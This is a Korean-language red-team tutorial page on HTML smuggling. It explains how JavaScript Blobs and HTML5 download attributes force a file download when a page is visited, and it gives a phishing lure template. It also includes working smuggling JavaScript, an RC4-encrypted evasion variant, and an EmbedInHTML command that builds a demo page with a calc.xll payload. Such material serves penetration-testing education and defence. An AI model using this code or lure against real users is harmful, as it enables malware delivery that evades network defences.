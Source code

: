 # HTML 스머글링 (Smuggling)

출처와 중요 레퍼런스 - [https://outflank.nl/blog/2018/08/14/html-smuggling-explained/](https://outflank.nl/blog/2018/08/14/html-smuggling-explained/)&#x20;

HTML 스머글링 (HTML Smuggling)은 자바스크립트와 HTML5의 download, anchor, click 등의 특성을 이용해 유저가 특정 HTML 페이지를 방문시 자동으로 파일을 다운 받도록 하는 기법이다.&#x20;

1. HTML5 anchor 태그에는 download 라는 특성이 있다. 이 특성은 anchor 태그에 URL 형식으로 링크된 파일을 클라이언트가 다운로드 받도록 한다.&#x20;
2. 자바스크립트의 Javascript Blob은 raw 데이터를 octet/stream 형태로 저장할 수 있게 해준다. 그 뒤 이 데이터는 createObjectURL을 통해 URL 형식으로 anchor 태그에 링크 될 수 있다.&#x20;
3. 자바스크립트의 HTMLElement.click 함수는 anchor 태그에 링크된 파일을 자동으로 클릭해 다운로드 받게 한다.&#x20;

위 3가지를 모두 합치면 HTML 페이지를 방문만 해도 페이로드가 다운로드 되도록 할 수 있다. HTML 스머글링은 다른 초기 침투 페이로드와 같이 사용되어 클라이언트의 디스크에 maldoc, XLL, DLL, HTA, JScript, ISO, ZIP 등의 파일들이 다운로드 되도록 한다.&#x20;

고급화된 피싱 공격에서는 다음과 같이 HTML 스머글링을 이용하기도 한다.&#x20;

* "<회사> 징계위원회입니다. 귀하와 관련된 익명의 신고가 접수되었으니 안전한 문서 접근을 위해 Safe URL 으로 가서 passcode: 1234를 입력한 뒤, 징계 문서를 확인주세요 -> \<HTML Smuggling 페이지 링크>"&#x20;
* 피해자가 링크 클릭 -> HTML Smuggling 으로 문서 다운로드&#x20;
* 문서를 여는 순간 페이로드 실행&#x20;

### 장점&#x20;

HTML 스머글링의 장점은 바로 호스트와 방어 기술들의 입장에서는 의심될만한 것이 많이 없다는 것이다. 아래는 Outflank 사의 블로그 포스트에서 가져온 이미지다:&#x20;

![https://outflank.nl/blog/2018/08/14/html-smuggling-explained/](<../.gitbook/assets/image (13).png>)

타겟의 프록시/방화벽의 입장에서는 피해자 호스트가 단순한 HTML 페이지를 방문하는 것처럼 보인다. MIME Type도 text/html밖에 없고, 로드되는 코드들도 클라이언트-사이드의 자바스크립트 밖에 없다. 요새 자바스크립트 없는 웹 페이지가 없다보니 이상한 점은 없어보인다.&#x20;

브라우저의 입장에서도 단순한 HTML과 자바스크립트가 로드되다보니 이상한 점은 없다. 브라우저는 HTML5와 자바스크립트의 기본적인 함수들을 이용해 하라는대로, 파일을 다운로드 한다.&#x20;



### 코드&#x20;

기본적인 코드는 base64 스트링을 디코딩해 Javascript blob로 만들고, 이를 anchor 태그에 URL 형식으로 걸어놓은 뒤 HTMLElement.click() 함수를 이용해 이를 다운 받는 코드다.&#x20;

<details>

<summary>Outflank blog source code </summary>

```
function base64ToArrayBuffer(base64) {
  var binary_string = window.atob(base64);
  var len = binary_string.length;
  var bytes = new Uint8Array( len );
  for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
  return bytes.buffer;
}

var file ='<< BASE64 ENCODING OF MALICIOUS FILE >>';
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'outflank.doc';

if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
else {
  var a = document.createElement('a');
  document.body.appendChild(a);
  a.style = 'display: none';
  var url = window.URL.createObjectURL(blob);
  a.href = url;
  a.download = fileName;
  a.click();
  window.URL.revokeObjectURL(url);
}
```

`base64ToArryBuffer` 함수를 이용해 base64 인코딩된 문자열을 ArrayBuffer 로 만든 뒤, 이를 new Blob 에다가 넣어 자바스크립트 데이터 Blob를 생성한다.

그 뒤 anchor 태그를 생성하고, `var url = window.URL.createObjectURL(blob)` 을 이용해 anchor 태그에 위에서 만든 Blob를 걸어준 뒤, `a.download` 및 `a.click` 으로 클라이언트 브라우저가 자동으로 파일을 다운받도록 한다.

</details>

위에서 살펴본 코드도 좋지만, 작전보안을 위해 파일을 암호화 한 뒤, 클라이언트 브라우저가 다운 받는 런타임 도중 복호화 해 다운 받도록 암호화를 추가하는 방법도 있다.&#x20;

<details>

<summary>EmbedinHTML - AES Encryption </summary>

```
function rc4Function(r,o){for(var t,e=[],n=0,a="",f=0;f<256;f++)e[f]=f;for(f=0;f<256;f++)n=(n+e[f]+r.charCodeAt(f%r.length))%256,t=e[f],e[f]=e[n],e[n]=t;f=0,n=0;for(var h=0;h<o.length;h++)n=(n+e[f=(f+1)%256])%256,t=e[f],e[f]=e[n],e[n]=t,a+=String.fromCharCode(o.charCodeAt(h)^e[(e[f]+e[n])%256]);return a;}
function b64AndRC4Function(r,o){var s=[],j=0,x,res='';for(var i=0;i<256;i++)s[i]=i;for(i=0;i<256;i++)j=(j+s[i]+r.charCodeAt(i%r.length))%256,x=s[i],s[i]=s[j],s[j]=x;i=0;j=0;var data=atob(o);var dataLength=data.length;var array=new Uint8Array(new ArrayBuffer(dataLength));for(var y=0;y<dataLength;y++)i=(i+1)%256,j=(j+s[i])%256,x=s[i],s[i]=s[j],s[j]=x,array[y]=data.charCodeAt(y)^s[(s[i]+s[j])% 256];return array;}

var keyFunction = function(){return "test"};

var varPayload = "<base64ed-file-string>";

var varBlob = new Blob([b64AndRC4Function(keyFunction(), varPayload)], {type: "application/vnd.ms-excel"});
var varBlobShim = '(function(b,fname){if(window.navigator.msSaveOrOpenBlob)window.navigator.msSaveOrOpenBlob(b,fname);else{var a=window.document.createElement("a");a.href=window.URL.createObjectURL(b, {type:"application/vnd.ms-excel"});a.download=fname;document.body.appendChild(a);a.click();document.body.removeChild(a);}})';
setTimeout(varBlobShim+'(varBlob, "calc.xll")');
```

</details>

암호화 함수들인 `rc4Function` 과 `b64AndRC4Function` 을 추가한다. 그 뒤, keyFunction 에서 간단한 암호화 키인 "test" 를 지정한다. 이후 암호화되어 있던 `varPayload` 를 `b64AndRC4Function` 으로 복호화 한다. 그 뒤, `varBlobShim` 에서는 위 OutFlank 소스코드에 있던 anchor 태그, Download 특성, createObjectURL 등을 추가하는 자바스크립트 함수를 만든다. 그 뒤, 이를 실행하면 런타임 중 복호화를 진행한 뒤 파일을 다운받게 된다.&#x20;

### 실습&#x20;

실습에서는 EmbedinHTML 툴을 사용한다. 오래된 툴이라 파이썬 2.7을 사용해야한다. PoC를 위해 기본 코드 실행인 계산기를 실행하는 페이로드를 이용한다.&#x20;

```
python2.7 embedInHTML.py -f ./payloads_examples/calc.xll -o test.html -w -k testkey
```

![](../.gitbook/assets/htmlsmuggling-demo2.gif)



### 레퍼런스&#x20;

{% embed url="https://outflank.nl/blog/2018/08/14/html-smuggling-explained/" %}

{% embed url="https://github.com/Arno0x/EmbedInHTML" %}
